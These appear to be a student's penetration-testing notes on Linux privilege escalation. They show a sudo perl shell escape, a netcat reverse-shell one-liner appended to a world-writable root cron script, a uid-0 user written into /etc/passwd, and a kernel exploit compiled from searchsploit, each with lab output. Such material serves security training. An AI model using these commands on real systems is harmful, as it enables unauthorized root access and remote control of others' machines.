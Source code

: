 
Because everything in Linux is a file, most privesc revolves around _insecure file permissions_ or _kernel exploits_.  
  
_THAT_ being said... highly rec [https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
Can search for binaries w/ SUID or GUID bits set, and then search ^ url for possible vulns w/ said binary. (Check #4 of [Linux Privesc exercises](18%20-%20Linux%20Privesc.md#18.3.5.4))


##### perl
```bash
sudo /usr/bin/perl -e 'exec("/bin/bash")'
```


### Insecure File Permissions:

Must locate an executable that not only allows us write access but also runs at an elevated privilege level.  
  
Cron is a prime target, as system-level scheduled jobs are executed with root user privileges  
& sysadmins often create scripts for cron jobs with insecure perms.  
  
  
Search for installed cron jobs:  
```bash
ls -lah /etc/cron*  
  
OR
  
grep "CRON" /var/log/cron.log  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)  
...  
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

**cat**'ing the script shows it copies the student's home dir to the backups subdir  
AND looking at the file shows that not only can anyone can Read/Write to it, BUT it's also executed in the context of the _**root**_ user:  
```bash
#!/bin/bash  
  
cp -rf /home/student/ /var/backups/student/  
  
  
ls -lah /var/scripts/user_backups.sh   
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Meaning, we can edit the script and add a reverse shell one-liner which then executes as root.:  
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> user_backups.sh
```

starting up a **nc** listener on the attack machine & waiting for the cron script to run (check timestamps for how often the cronjob runs) will eventually net a reverse shell w/ root perms:  
```bash
nc -lnvp 1234  
  listening on [any] 1234 ...  
  connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 43172  
  /bin/sh: 0: can''t access tty; job control turned off  
  # whoami  
  root  
  # 
```



### /etc/passwd

Unless AD or LDAP is used, Linux passwords are stored in /etc/shadow (not readable by normal users)  
  
Because historically, passwords _were_ stored in /etc/passwd, for backwards compatibility,  
	if there's a password hash present in the 2nd column, it's considered valid **& takes precedence over its respective entry in /etc/shadow**  
  
  
Granted, we have to have write perms for /etc/passwd in the first place ----- Most likely not.  
  
But if we can write to /etc/passwd, we can craft a new user & add it w/ root privileges:  
```bash
student@debian:~$ openssl passwd evil  
AK24fcSx2Il3I  
  
student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd  
  
student@debian:~$ su root2  
Password: evil  
  
root@debian:/home/student# id  
uid=0(root) gid=0(root) groups=0(root)
```
adding entries:  
	username : pw hash : UID : GID : UID info (comment field) : home directory : command/shell  
	- 0 values for UID & GID specify the account is a superuser account  



### Kernel Vulns:

Success depends on matching the target's kernel version AND the OS flavor (Debian, Redhat, Suse, etc)  
  
First gather info about the target:  
```bash
cat /etc/issue  
Ubuntu 16.04.3 LTS \n \l
```

Inspect kernel version & system architecture:  
```bash
uname -r  
4.8.0-58-generic  
arch  
x86_64
```
	- Kernel version  
	- Architecture  
  
Search for exploits:  
```bash
searchsploit linux kernel ubuntu 16.04  
-------------------------------------------------------- -----------------------------  
 Exploit Title                                          |  Path (/usr/share/exploitdb/  
-------------------------------------------------------- -----------------------------  
...  
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.0 | exploits/linux/local/43418.c
```
	-- Same kernel version target's running  
  
Similar to Windows - we'll use **gcc** to compile the exploit to run on Linux:  
**NOTE: extremely important we compile on a computer w/ the same architecture  
```bash
gcc 43418.c -o exploit
```
  
Copy to target & run